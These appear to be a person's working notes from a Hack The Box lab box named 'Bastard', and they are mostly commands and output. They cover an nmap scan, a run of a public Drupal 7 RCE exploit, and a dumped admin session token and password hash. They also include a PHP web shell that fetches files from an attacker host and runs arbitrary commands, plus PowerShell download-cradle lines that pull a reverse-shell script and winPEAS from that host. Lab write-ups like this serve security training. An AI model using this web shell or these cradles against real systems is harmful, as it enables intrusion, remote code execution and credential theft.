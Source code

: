PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

IIS 7.5 is windows 7 and 2008


┌──(kali㉿kali)-[~/htb/bastard]
└─$ php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce

#!/usr/bin/php
ls
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/dixuSOspsOUU.php

┌──(kali㉿kali)-[~/htb/bastard]
└─$ ls
10.10.10.9.gnmap  10.10.10.9.nmap  10.10.10.9.xml  41564.php  44449.rb  dirsearch.py  session.json  user.json

┌──(kali㉿kali)-[~/htb/bastard]
└─$ cat session.json             
{
    "session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
    "session_id": "6CpYX40TSMheP4TuNzonHmvHsVwMtdE1ss72gNQG7Fw",
    "token": "hvSOKVwVbBNGfdmTz-6WjDJFk6sRb5JeZ1TDuaa0ACY"
}                                                                                                                     
┌──(kali㉿kali)-[~/htb/bastard]
└─$ cat user.json   
{
    "uid": "1",
    "name": "admin",
    "mail": "drupal@hackthebox.gr",
    "theme": "",
    "created": "1489920428",
    "access": "1492102672",
    "login": 1624542274,
    "status": "1",
    "timezone": "Europe\/Athens",
    "language": "",
    "picture": null,
    "init": "drupal@hackthebox.gr",
    "data": false,
    "roles": {
        "2": "authenticated user",
        "3": "administrator"
    },
    "rdf_mapping": {
        "rdftype": [
            "sioc:UserAccount"
        ],
        "name": {
            "predicates": [
                "foaf:name"
            ]
        },
        "homepage": {
            "predicates": [
                "foaf:page"
            ],
            "type": "rel"
        }
    },
    "pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
}                                                                                                                     


open inspector > storage > cookies 
name : session
value : session id


logged in as admin > click modules > add content > basic page  (rmb to on php filter first)

<?php if (isset($_REQUEST['fupload'])) {
   file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.22:1337/" . $_REQUEST['fupload']));
};

if (isset($_REQUEST['fexec'])) {
  echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
};

?>


http://10.10.10.9/node/2?fexec=systeminfo

System Type:               x64-based PC


setup smb server to download nc64.exe then run 

http://10.10.10.9/node/2?fexec=\\10.10.14.22\share\Invoke-PowerShellTcp.ps1

powershell IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.22:8000/Invoke-PowerShellTcp.ps1')

IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.22:8000/winPEAS.bat')


Invoke-WebRequest -Uri 10.10.14.22:8000/winPEAS.bat -OutFile C:\inetpub\temp

Invoke-WebRequest -Uri "http://10.10.14.22:8000/winPEAS.bat" -OutFile "C:\inetpub\temp"